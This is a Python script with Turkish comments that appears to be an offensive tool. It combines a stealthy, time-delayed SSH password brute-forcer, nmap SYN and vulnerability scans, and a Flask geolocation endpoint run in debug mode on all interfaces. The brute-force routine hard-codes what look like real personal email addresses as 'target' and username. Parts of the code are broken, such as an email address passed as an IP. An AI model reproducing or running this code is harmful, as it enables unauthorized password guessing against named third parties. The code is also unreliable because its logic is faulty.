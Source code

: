 # import logging
import json
import os
import smtplib
import paramiko
import nmap
import random
import time
from datetime import datetime
from flask import Flask, request, jsonify

app = Flask(__name__)

# Loglama ayarları
def setup_logger(log_file):
    logging.basicConfig(
        filename=log_file,
        filemode='a',  # Dosyaya ekleme modu
        format='%(asctime)s - %(levelname)s - %(message)s',
        level=logging.INFO
    )

# Log mesajı kaydetme
def log_event(event_message, level='info'):
    if level == 'info':
        logging.info(event_message)
    elif level == 'warning':
        logging.warning(event_message)
    elif level == 'error':
        logging.error(event_message)
    elif level == 'debug':
        logging.debug(event_message)

# Brute-force SSH saldırısı (sessiz ve zaman gecikmeli)
def brute_force_ssh(ip, username, wordlist, delay=2):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    for password in wordlist:
        try:
            ssh.connect(ip, username=username, password=password, timeout=3)
            log_event(f"Başarılı SSH bağlantısı: {username}@{ip} - Şifre: {password}", level='info')
            ssh.close()
            return password  # Başarılı şifre bulundu
        except paramiko.AuthenticationException:
            log_event(f"SSH giriş başarısız: {password}", level='debug')
            time.sleep(delay)  # Her deneme arasında gecikme ekleniyor
            continue  # Şifre yanlış, denemeye devam et
        except Exception as e:
            log_event(f"SSH brute-force hatası: {e}", level='error')
            return None
    log_event("Brute-force saldırısı tamamlandı ancak doğru şifre bulunamadı.", level='error')
    return None

# Sessiz port taraması (SYN tarama)
def nmap_scan(ip):
    scanner = nmap.PortScanner()
    scanner.scan(ip, '1-1024', arguments='-sS')  # SYN taraması, gizli ve hızlı
    open_ports = []

    for host in scanner.all_hosts():
        for proto in scanner[host].all_protocols():
            ports = scanner[host][proto].keys()
            for port in ports:
                if scanner[host][proto][port]['state'] == 'open':
                    service = scanner[host][proto][port]['name']
                    version = scanner[host][proto][port].get('version', 'unknown')
                    open_ports.append({'port': port, 'service': service, 'version': version})

    return open_ports

# Zafiyet taraması
def vulnerability_scan(ip):
    scanner = nmap.PortScanner()
    scanner.scan(ip, '1-1024', arguments='--script vuln')  # Zafiyet taraması betiği ekleniyor
    open_ports = []

    for host in scanner.all_hosts():
        for proto in scanner[host].all_protocols():
            ports = scanner[host][proto].keys()
            for port in ports:
                if scanner[host][proto][port]['state'] == 'open':
                    service = scanner[host][proto][port]['name']
                    version = scanner[host][proto][port].get('version', 'unknown')
                    vulnerabilities = scanner[host][proto][port].get('script', {}).get('vuln', 'No vulnerabilities found')
                    open_ports.append({
                        'port': port, 
                        'service': service, 
                        'version': version,
                        'vulnerabilities': vulnerabilities
                    })

    return open_ports

# Sessiz rapor oluşturma ve kaydetme
def create_security_report(open_ports, found_cves, successful_attacks, test_durations, username):
    report = {
        'Report Generated At': datetime.now().strftime("%Y-%m-%d %H:%M:%S"),
        'Username': username,  # Kullanıcı adını ekle
        'Open Ports': open_ports,
        'Found CVEs': found_cves,
        'Successful Attacks': successful_attacks,
        'Test Durations': test_durations
    }
    return report

# Sessiz SSH brute-force saldırısı için hedef belirleme
def perform_brute_force_attack():
    target_ip = "alaouiismailimaha2@gmail.com"  # Hedef e-posta adresi
    username = "Fatihneu12@gmail.com"  # Yönetici e-posta adresi
    wordlist_file = input("Wordlist dosyasının yolunu girin (şifre listesi): ")
    
    # Şifre listesini oku
    try:
        with open(wordlist_file, 'r') as file:
            wordlist = [line.strip() for line in file.readlines()]
    except IOError:
        log_event("Wordlist dosyası açılamadı.", level='error')
        return None

    # SSH brute-force saldırısı başlat
    return brute_force_ssh(target_ip, username, wordlist, delay=5)

# Geolocation
@app.route('/geolocation', methods=['POST'])
def get_geolocation():
    data = request.get_json()
    if 'latitude' in data and 'longitude' in data:
        latitude = data['latitude']
        longitude = data['longitude']
        log_event(f"Geolocation request received: Latitude {latitude}, Longitude {longitude}")
        return jsonify({
            'status': 'success',
            'latitude': latitude,
            'longitude': longitude
        })
    else:
        log_event("Invalid geolocation data received.", level='error')
        return jsonify({'status': 'error', 'message': 'Invalid data'}), 400

# Ana program (sessiz modda çalıştırma)
if __name__ == "__main__":
    log_file = 'security_tests.log'
    setup_logger(log_file)

    # Flask sunucusunu başlat
    app.run(host='0.0.0.0', port=5000, debug=True)
